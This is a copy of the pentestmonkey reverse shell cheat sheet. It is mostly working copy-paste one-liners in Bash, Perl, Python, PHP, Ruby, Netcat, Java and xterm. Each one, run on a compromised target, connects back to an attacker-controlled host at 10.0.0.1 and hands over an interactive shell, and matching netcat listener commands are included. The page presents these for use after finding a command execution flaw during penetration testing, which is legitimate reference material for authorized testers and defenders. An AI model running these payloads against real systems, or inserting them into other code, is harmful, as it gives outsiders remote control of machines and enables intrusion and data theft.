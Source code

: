 # Reverse Shell Cheat Sheet

From [pentestmonkey](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) / https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet  

If you’re lucky enough to find a command execution vulnerability during a penetration test, pretty soon afterwards you’ll probably want an interactive shell.

If it’s not possible to add a new account / SSH key / .rhosts file and just log in, your next step is likely to be either trowing back a reverse shell or binding a shell to a TCP port.  This page deals with the former.

Your options for creating a reverse shell are limited by the scripting languages installed on the target system – though you could probably upload a binary program too if you’re suitably well prepared.

The examples shown are tailored to Unix-like systems.  Some of the examples below should also work on Windows if you use substitute “/bin/sh -i” with “cmd.exe”.

Each of the methods below is aimed to be a one-liner that you can copy/paste.  As such they’re quite short lines, but not very readable.

## Bash
Some versions of bash can send you a [reverse shell](http://www.gnucitizen.org/blog/reverse-shell-with-bash) / http://www.gnucitizen.org/blog/reverse-shell-with-bash (this was tested on Ubuntu 10.10):  
$${\color{green}On\ the\ target\ machine:}$$
```bash
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```
$${\color{blue}Catch\ the\ shell\ on\ attack\ machine:}$$
```bash
nc -nv TARGET_IP 8080
```
## PERL
Here’s a shorter, feature-free version of the [perl-reverse-shell](http://pentestmonkey.net/tools/web-shells/perl-reverse-shell) / http://pentestmonkey.net/tools/web-shells/perl-reverse-shell:
$${\color{green}On\ the\ target\ machine:}$$
```bash
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
There’s also an [alternative PERL revere shell here](http://www.plenz.com/reverseshell) / http://www.plenz.com/reverseshell.

$${\color{blue}Catch\ the\ shell\ on\ attack\ machine:}$$
```bash
nc -nv TARGET_IP 8080
```
## Python
This was tested under Linux / Python 2.7:
```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
## PHP
This code assumes that the TCP connection uses file descriptor 3.  This worked on my test system.  If it doesn’t work, try 4, 5, 6…
```bash
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```
If you want a .php file to upload, see the more featureful and robust [php-reverse-shell](http://pentestmonkey.net/tools/web-shells/php-reverse-shell) / http://pentestmonkey.net/tools/web-shells/php-reverse-shell.

## Ruby
```bash
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

## Netcat
Netcat is rarely present on production systems and even if it is there are several version of netcat, some of which don’t support the -e option.
```bash
nc -e /bin/sh 10.0.0.1 1234
```
If you have the wrong version of netcat installed, [Jeff Price points out here](http://www.gnucitizen.org/blog/reverse-shell-with-bash/#comment-127498) / http://www.gnucitizen.org/blog/reverse-shell-with-bash/#comment-127498 that you might still be able to get your reverse shell back like this:
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
```

## Java
```bash
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```
[Untested submission from anonymous reader]

## xterm
One of the simplest forms of reverse shell is an xterm session.  The following command should be run on the server.  It will try to connect back to you (10.0.0.1) on TCP port 6001.
```bash
xterm -display 10.0.0.1:1
```
To catch the incoming xterm, start an X-Server (:1 – which listens on TCP port 6001).  One way to do this is with Xnest (to be run on your system):
```bash
Xnest :1
```
You’ll need to authorise the target to connect to you (command also run on your host):
```bash
xhost +targetip
```
## Further Reading
Also check out [Bernardo’s Reverse Shell One-Liners](http://bernardodamele.blogspot.com/2011/09/reverse-shells-one-liners.html) / http://bernardodamele.blogspot.com/2011/09/reverse-shells-one-liners.html.  He has some alternative approaches and doesn’t rely on /bin/sh for his Ruby reverse shell.
